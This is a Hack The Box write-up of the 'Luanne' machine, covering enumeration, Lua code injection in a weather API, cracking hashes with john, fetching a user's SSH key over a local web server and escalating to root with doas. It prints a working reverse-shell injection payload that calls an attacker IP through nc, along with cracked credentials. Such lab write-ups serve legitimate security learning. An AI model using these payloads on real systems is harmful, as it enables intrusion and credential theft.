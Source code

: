 ```yaml
---
layout: post
title:  "Launne Walkthrough"
date:   2021-03-27 
categories: blog
layout: post
---
```

# Luanne Walkthrough
![](https://i.ibb.co/wJw8Kzj/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

<!--more-->

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://i.ibb.co/xXfkxYT/image.png)


### Let's start with the Web Page:

![](https://i.ibb.co/1GYkMLC/image.png)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://i.ibb.co/87bbn0b/image.png)


> #### I used ffuf for fuzzing luanne.htb/


![](https://i.ibb.co/bdWykc8/image.png)



* We got robots.txt

![](https://i.ibb.co/mTQCjQq/image.png)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://i.ibb.co/R2pH0fq/image.png)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://i.ibb.co/cJXyHr9/image.png)


> #### Use city=list to list available cities 

*okay, Thanks*


![](https://i.ibb.co/g7bGCMX/image.png)

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![](https://i.ibb.co/dgQVN9S/image.png)

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![](https://i.ibb.co/1JXzdwC/image.png)

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![](https://i.ibb.co/C854hrM/image.png)

**we got iamthebest**

## Enumerate luanne.


![](https://i.ibb.co/8M8vYqx/image.png)

> * We got user r.michaels 

**Let's check the netstate** 

![](https://i.ibb.co/pLd3JPM/image.png)

> * There is a localhost web page on port 3000 and 3001. 

**Let's Dig more**

![](https://i.ibb.co/r00s2W3/image.png)


![](https://i.ibb.co/HTDXSZx/image.png)

**I got hinted to dig more in port 3001 and get id_rsa.**

**So let's Try to curl the local web server in port 3001.**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![](https://i.ibb.co/TYT9362/image.png)

> **no items here so we can find it in /~r.michaels/id_rsa ,Because we enterted launne as _httpd so this folder shared through web that's why we found id_rsa in /~r.michaels/ not in /~r.michaels/.ssh/**


![](https://i.ibb.co/fQpQGwW/image.png)

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![](https://i.ibb.co/9V7NPZF/image.png)


## SSH connecting.


![](https://i.ibb.co/xm3Dh9Z/image.png)

![](https://i.ibb.co/L1GYvVN/image.png)

> **WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![](https://i.ibb.co/QmmzY8b/image.png)

> * we access to /webapi but no thing useful.


![](https://i.ibb.co/hKqcSJL/image.png)

> **we access to /www and got another webapi_user.**
 
![](https://i.ibb.co/D8f6St8/image.png)

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su...**

![](https://i.ibb.co/VjZxr3m/image.png)

##### Command Not Found!!!

> **we had to find Alternatives for sudo su in netBSD operating system.**

* I found doas su, And that's ok.
* Surely we will use littlebear to get root.


![](https://i.ibb.co/5xQ1GY7/image.png)

# RooTed

<img src="http://www.hackthebox.eu/badge/image/209461" alt="Hack The Box">


